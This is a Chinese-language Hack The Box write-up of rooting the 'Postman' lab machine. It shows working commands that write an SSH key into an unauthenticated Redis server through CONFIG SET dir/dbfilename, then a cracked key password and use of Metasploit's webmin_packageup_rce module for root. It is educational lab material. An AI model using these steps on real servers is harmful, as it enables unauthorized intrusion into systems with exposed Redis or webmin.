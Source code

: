 1. 第二台拿下root权限的机器, 虽然难度还是简单,但是很开心

    Happy Hacking!


    <!--more-->


    ## Foothold

    首先nmap扫描看一下

    ![nmap.jpg][1]

    看到开了三个端口22,80,1000

    这三个服务里第三个不太熟悉, 于是先访问看一下

    直接在浏览器里访问http://10.10.10.160:10000 会提示要求访问HTTPS

    访问https://10.10.10.160:10000

    看到是一个登录界面

    ![login.jpg][2]

    这个服务是一个webmin服务,于是自然的想用metasploit搜一下有没有相关的漏洞

    结果发现存在的漏洞大多需要用户名和密码

    有几个不需要的也利用不成功

    于是又试了一下爆破路径,结果也没发现什么有价值的东西

    

    只好求助论坛,发现论坛里面有人说需要全端口扫描,有人提示`r***s`

    猜测是redis的服务,于是扫一下6379端口发现确实有收获

    ![redis.jpg][3]

    但是实际上并没有用过redis,也不太了解相关的漏洞利用知识,于是搜了一下找到几个比较详细的文章

    [redis在渗透中getshell方法总结](https://zhuanlan.zhihu.com/p/36529010)

    [redis渗透测试技巧总结](http://www.am0s.com/penetration/215.html)

    [Redis Remote Command Execution](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)

    学习之后发现有一种写ssh 私钥的方法,进行尝试

    ```bash
    ssh-keygen -t rsa -C "xxx"
    (echo -e "\n\n";cat id_rsa.pub; echo -e "\n\n") > 1.txt
    redis-cli -h 10.10.10.160 flushall
    cat 1.txt | redis-cli -h 10.10.10.160 -x set crackit
    ```

    这边写进去之后用redis-cli连接,写一下dir和dbfilename两个字段的值

    ```bash
    redis-cli -h 10.10.10.160
    > CONFIG SET dir /var/lib/redis/.ssh/
    > CONFIG SET dbfilename "authorized_keys"
    > save
    ```

    写完之后连接先不要断,另开一个终端直接连过去

    ```bash
    ssh -i id_rsa redis@10.10.10.160
    ```

    连接成功,得到了redis权限

    

    ## Matt

    在redis权限下一番搜索查看

    发现在`/tmp`目录下有其他大佬上传的脚本,正好直接运行一下

    发现`/opt/id_rsa.bak`

    这个文件属于用户`Matt`

    于是吧这个私钥搞下来,结果发现是加密的

    用我们之前在[Traverxec](https://river-li.me/2019/12/03/htb-traverxec/#more)写的爆破脚本跑一下,得到key的密码`computer2008`

    之后尝试连接发现失败,解密后用key连接ssh也不行

    这时候想起webmin的登录界面,于是尝试用这个密码和用户名登录webmin

    ![webmin.jpg][4]

    结果居然登上了,这里就算是获取到了Matt的权限了

    

    ## root

    还记得之前用到的msf吗?

    既然已经有了一个Matt的用户名密码,就可以用msf里面的模块了

    用到一个`webmin_packageup_rce`的模块

    ![msfconsole.jpg][5]

    设置好参数直接run

    ![run.jpg][6]

    done!

    ## 总结

    这次机器学到的知识点

    1. webmin服务及相关的漏洞
    2. redis配置不当的几种渗透方法
    3. redis写shell的方法
    4. ssh key爆破密码的方法


    [1]: http://42.193.111.59/usr/uploads/2021/01/2090988332.jpg#vwid=834&vhei=366
    [2]: http://42.193.111.59/usr/uploads/2021/01/1766468089.jpg#vwid=1280&vhei=641
    [3]: http://42.193.111.59/usr/uploads/2021/01/3196586842.jpg#vwid=693&vhei=211
    [4]: http://42.193.111.59/usr/uploads/2021/01/3204943588.jpg#vwid=1280&vhei=417
    [5]: http://42.193.111.59/usr/uploads/2021/01/3405055908.jpg#vwid=1280&vhei=299
    [6]: http://42.193.111.59/usr/uploads/2021/01/2568944052.jpg#vwid=1280&vhei=483
